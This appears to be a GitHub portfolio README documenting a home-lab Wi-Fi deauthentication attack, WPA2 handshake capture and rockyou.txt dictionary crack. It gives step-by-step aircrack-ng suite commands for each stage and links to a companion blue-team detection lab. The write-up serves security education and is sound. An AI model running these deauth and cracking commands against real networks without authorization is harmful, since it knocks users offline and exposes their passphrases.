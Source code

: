 # Wi-Fi Deauth Attack (Red Team) 🔴📡
![Kali Linux](https://img.shields.io/badge/Tested%20On-Kali%20Linux%202025.1-blue?logo=kalilinux)
![VMware](https://img.shields.io/badge/Platform-VMware%20Workstation-lightgrey?logo=vmware)

This repository documents my **controlled Wi-Fi deauthentication (deauth) attack** and **WPA2 handshake capture** performed inside a **Kali Linux VM running on VMware Workstation Pro**. The exercise highlights how attackers can exploit unprotected 802.11 management frames to forcibly disconnect clients and capture WPA2 handshakes for offline password analysis. The purpose of this project is to provide a practical, hands-on example of offensive wireless testing, with future expansion into defensive monitoring strategies. While the attack itself is disruptive, it also offers valuable lessons for defenders who need to recognize and mitigate such activity in real-world environments.

**The objective:** force a client on **my own test network** to disconnect, capture the WPA2 handshake, and crack a weak passphrase with the `aircrack-ng` suite.

> ⚠️ **Ethical Notice:** Performed only on a network I own, strictly for education and portfolio purposes. Do **not** test on networks without explicit authorization.

---

## ⚙️ Lab Environment

- **Platform:** VMware Workstation Pro  
- **Guest OS:** Kali Linux (kali-rolling)  
- **VM Resources:** 8 GB RAM • 4 vCPUs • 80 GB storage  
- **Wi-Fi Adapters:** 2× **ALFA AWUS036ACM** (USB passthrough)  
  - `wlan0` → handshake capture  
  - `wlan1mon` → packet injection / deauth  
- **Tools:** `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`  
- **Wordlist:** `rockyou.txt`  

---

## 📸 Step-By-Step Process (Commands + Evidence)

### 1) Detect Wireless Adapters
    iwconfig
Identify available interfaces before starting.

![Detect Adapters](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/01_detect_wireless_adapters.png)

---

### 2) Enable Monitor Mode (Injection Adapter)
    sudo airmon-ng start wlan0
Enable monitor mode on the adapter dedicated to injection; this creates `wlan1mon`.

![Enable Monitor Mode](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/03_enable_monitor_mode.png)

---

### 3) Scan Nearby Wi-Fi Networks (Discovery)
    sudo airodump-ng wlan0
Discover SSIDs/BSSIDs and confirm the target (**KC’s Mobile WPA2 Network**).

![Scan Wi-Fi Networks](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/04_scan_wifi_networks.png)

---

### 4) Target the Network and Capture the Handshake
    sudo airodump-ng --bssid <TARGET_BSSID> -c <CHANNEL> -w handshake wlan0
Lock onto the target AP on its channel and writes captured packets to `handshake-03.cap` using the listener interface.

![Target Network Capture](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/05_target_network_airodump.png)

---

### 5) Deauthenticate a Client (Trigger Handshake)
    sudo aireplay-ng --deauth 10 -a <TARGET_BSSID> -c <CLIENT_MAC> wlan1mon
Send deauth frames from the injection adapter to force a reconnect, generating the WPA2 4-way handshake.

![Handshake Captured](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/07_handshake_file_confirmed.png)

---

### 6) Crack the Captured Handshake
    aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <TARGET_BSSID> handshake-03.cap
Run a dictionary attack with `rockyou.txt` against the handshake capture.

![Password Cracked](https://github.com/SecuredByKC/Portfolio-DeauthAttack/raw/main/08_password_cracked_aircrackng.png)

---

## 🖥️ VMware & Hardware Notes

- **USB Passthrough:** Both **ALFA AWUS036ACM** adapters are attached directly to the guest VM for full monitor/injection support.  
- **Networking:** VM set to **NAT** for package updates; wireless adapters are **not** bridged as NICs—each is passed through as a USB device to Kali.  
- **Driver Support:** Ensure chipset/driver support in Kali so `monitor` mode and injection function correctly.

---

## ✅ Key Takeaways

- Practical use of monitor mode and packet injection to capture WPA2 handshakes in a controlled lab.

- Developed a clear understanding of BSSID (access point) vs. client MAC (station) roles during deauthentication attacks.

- Demonstrated a successful dictionary attack, highlighting the risks of weak Wi-Fi passphrases.

- Built a reliable virtualized lab environment using VMware Workstation Pro and ALFA AWUS036ACM USB adapters for wireless testing.

---

## 📂 Repo Contents

- Step screenshots (evidence)  
- This `README.md` documenting methodology, tooling, and lab setup

---

## 🔬 Blue Team Companion Lab  

This project currently focuses on the offensive (red-team) side of wireless security: running a controlled deauthentication attack, capturing WPA2 handshakes, and performing a dictionary attack.  

To complement it, I built a **defensive (blue-team) lab** here:  
👉 **[Wi-Fi Deauth Detection (Blue Team Lab)](https://github.com/SecuredByKC/wifi-deauth-detection-blue)**  

In the Blue Team lab, I:  

-  **Captured Wi-Fi traffic with airodump-ng** in passive mode to collect management frames from the target AP.  
-  **Converted PCAPs into CSV** with `tshark` to extract key 802.11 fields (time, subtype, source, destination, BSSID).  
-  **Ingested the dataset into Splunk Enterprise** and created a custom `wifi_csv` sourcetype for analysis.  
-  **Queried for deauthentication frames (`0x000c`)** and confirmed attack spikes.  
-  **Built timechart visualizations** comparing deauth activity against normal management traffic (beacon, auth, association).  
-  **Summarized attack windows** and documented how Splunk baselining makes detection repeatable, unlike one-off packet inspection.  

This provides a defensive perspective to balance the offensive red-team exercise and demonstrates how real-world defenders can detect and investigate wireless DoS attacks.  

---

## ⚖️ Legal & Ethical Reminder

This methodology is provided for **defensive education**. Always obtain **explicit written permission** before testing any network you don’t own. Unauthorized access is illegal and unethical.

---

## 👤 Author

**Karim Cherradi**
GitHub: [@SecuredByKC](https://github.com/SecuredByKC)

